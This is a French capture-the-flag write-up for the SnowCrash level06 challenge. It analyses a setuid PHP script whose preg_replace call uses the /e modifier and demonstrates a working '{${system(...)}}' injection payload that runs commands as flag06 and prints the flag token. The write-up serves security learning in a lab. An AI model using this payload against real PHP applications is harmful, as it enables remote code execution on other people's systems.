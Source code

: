 Dans le home du level06, on trouve ce script PHP :

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Si on reformule ce script pour le rendre plus lisible, cela donne :

```php
#!/usr/bin/php
<?php
function y($m){
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z){
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

La fonction **`x()`** lit le contenu du fichier spécifié dans **`argv[1]`** à l'aide de la fonction **`file_get_contents()`**. Ensuite, elle utilise **`preg_replace()`** pour chercher des occurrences de la chaîne **`[x *]`** dans ce contenu.

Pour mieux comprendre cette fonction, en voici le prototype :

```php
preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
```

*Le groupe de capture `(.*)`signifie que n’importe quel contenu de n’importe quelle taille peut exister entre le début et la fin de la string. À cela est ajouté le modificateur **`/e`** qui signifie que la chaîne doit être évaluée comme du code PHP. Donc si une correspondance est trouvée avec le $pattern, son contenu sera interprété comme du code, et envoyé dans la fonction **`y()`** , qui récupérera en paramètre le contenu du deuxième groupe de capture avec **`//2`**, donc tout le contenu ajouté dans le groupe `(.*)`. Puis enfin, les crochets sont remplacés simplement par des espaces.

La fonction **`y()`**, quant à elle, remplace tous les points **`.`** par des **`x`** et tous les **`@`** par des **`y`**.

Un petit exemple ici :

```
level06@SnowCrash:~$ echo 'salut[x .@].@' > /tmp/test.txt
level06@SnowCrash:~$ ./level06 /tmp/test.txt
salut x  y.@
```

Le contenu entre [x ] a bien été remplacé, mais les `.@` qui sortent du pattern envoyé à la fonction y() n’ont pas été substitués par des xy.

Super mais ce qui parait le plus intéressant ici, c’est bien l’évaluation du texte en code PHP, qui pourrait amener à une injection de code. Ça tombe bien car il existe effectivement un risque lorsque ce modificateur est ajouté. Ce gars trop bien présente tout de façon super claire : [https://ik0nw.github.io/2020/09/23/PHP::Preg_replace()-RCE/](https://ik0nw.github.io/2020/09/23/PHP::Preg_replace()-RCE/)

On apprend notamment [ici](https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/) que l’usage de ce modificateur est déprécié depuis la version 5.5.0 de PHP. Après avoir essayé plusieurs formes de payload, l’appel de system() sous une forme **complex (curly) syntax** semble fonctionner :  

```
level06@SnowCrash:~$ echo 'salut[x {${system(ls)}}]' > /tmp/test.txt
level06@SnowCrash:~$ ./level06 /tmp/test.txt
PHP Notice:  Use of undefined constant ls - assumed 'ls' in /home/user/level06/level06.php(4) : regexp code on line 1
level06
level06.php
PHP Notice:  Undefined variable: level06.php in /home/user/level06/level06.php(4) : regexp code on line 1
salut
```

Bon le programme est broken mais au moins ça exécute tout de même ce que l’on souhaite.

Après un check whoami pour vérifier qu’on exécute bien les commandes en tant que flag06 (suid actif sur level06), on peut lancer un getflag :

```
level06@SnowCrash:~$ echo 'salut[x {${system(getflag)}}]' > /tmp/test.txt
level06@SnowCrash:~$ ./level06 /tmp/test.txt
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
salut
```

